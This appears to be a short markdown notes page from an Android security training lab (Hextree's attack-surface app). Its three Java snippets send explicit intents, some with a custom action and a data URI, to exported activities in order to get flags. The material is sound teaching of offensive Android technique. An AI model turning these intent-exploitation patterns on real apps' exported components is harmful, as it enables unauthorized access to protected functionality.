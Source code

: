 ```yaml
---
description: >-
  A messaging object you can use to request an action from another app
  component.
---
```


# intent

## Intents exploitation

### Basic Intent

{% code overflow="wrap" %}
```java
public void onClick(View v) {
    Intent intent = new Intent();
    intent.setComponent(new ComponentName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag1Activity"));
    startActivity(intent);
}
```
{% endcode %}

### Intent with extras

{% code overflow="wrap" %}
```java
public void onClick(View v) {
    Intent intent = new Intent();
    intent.setComponent(new ComponentName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag2Activity"));
    intent.setAction("io.hextree.action.GIVE_FLAG");
    startActivity(intent);
}
```
{% endcode %}

### Intent with dara URI

{% code overflow="wrap" %}
```java
public void onClick(View v) {
    Intent intent = new Intent();
    intent.setComponent(new ComponentName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag3Activity"));
    intent.setAction("io.hextree.action.GIVE_FLAG");
    intent.setData(Uri.parse("https://app.hextree.io/map/android"));
    startActivity(intent);
}
```
{% endcode %}

{% embed url="https://developer.android.com/guide/components/intents-filters?hl=es-419" %}

{% embed url="https://app.hextree.io/" %}
